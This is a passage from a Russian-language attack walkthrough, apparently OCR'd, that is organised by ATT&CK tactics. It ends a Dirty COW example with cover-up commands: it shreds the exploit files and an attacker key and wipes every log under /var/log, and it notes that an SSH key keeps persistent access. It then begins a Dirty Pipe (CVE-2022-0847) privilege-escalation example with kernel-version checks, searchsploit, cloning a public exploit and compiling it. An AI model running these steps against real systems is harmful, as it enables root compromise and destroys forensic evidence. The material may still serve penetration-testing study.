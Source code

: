 **Шаг 3: Скрытие следов**  
```bash
# Очистка следов генерации ключей
shred -zu /tmp/attacker_key

# Удаление эксплоита и временных файлов
shred -zu dirtyc0w dirtyc0w.c /tmp/passwd

# Очистка логов
find /var/log -name "*.log" -exec sh -c 'echo > {}' \;
```

- Восстановление файла /etc/passwd маскирует следы эксплуатации  
- SSH-ключ обеспечивает постоянный доступ  

---

### Пример 2: Dirty Pipe (CVE-2022-0847) - Эксплуатация уязвимости ядра в подсистеме pipe
> Уязвимость в подсистеме pipe ядра Linux, позволяет перезаписывать произвольные read-only файлы.

**Механизм:**  
- При создании pipe ядро использует неинициализированную переменную `flags`  
- Это позволяет установить флаг `PIPE_BUF_FLAG_CAN_MERGE`  
- Флаг разрешает "сливать" новые данные в существующие страницы кэша файлов  

**Условия эксплуатации:**  
1. Ядро версий 5.8 — 5.16.10, 5.15.х до 5.15.25, 5.10.х до 5.10.102  
2. Возможность чтения целевого файла (даже read-only)  
3. Стандартные пользовательские привилегии  

---

#### [TA0007] – Discovery (Разведка)  
```bash
# 1. Проверка версии ядра
uname -r  # 5.13.0-30-generic

# 2. Проверка диапазона уязвимости
if [ "$(printf '%s\n' "5.8" "$(uname -r | cut -d. -f1-3)" "5.16.11" | sort -V | sed -n 2p)" = "$(uname -r | cut -d. -f1-3)" ]; then
  echo "Система потенциально уязвима"
fi

# 3. Проверка наличия флага в символах ядра
grep PIPE_BUF_FLAG_CAN_MERGE /proc/kallsyms

# 4. Проверка размера страницы (обычно 4096)
getconf PAGE_SIZE
```

---

#### [TA0004] – Privilege Escalation (Повышение привилегий)  
```bash
# Поиск эксплоитов
searchsploit dirty pipe
# Вывод:
# Linux Kernel 5.8 < 5.16.11 - 'Dirty Pipe' Pipe Mechanism Local Privilege Escalation

# Альтернативный вариант загрузки:
git clone https://github.com/Arinerron/CVE-2022-0847-DirtyPipe-Exploit

# Компиляция найденного эксплойта
gcc dirtypipe.c -o dirtypipe
```
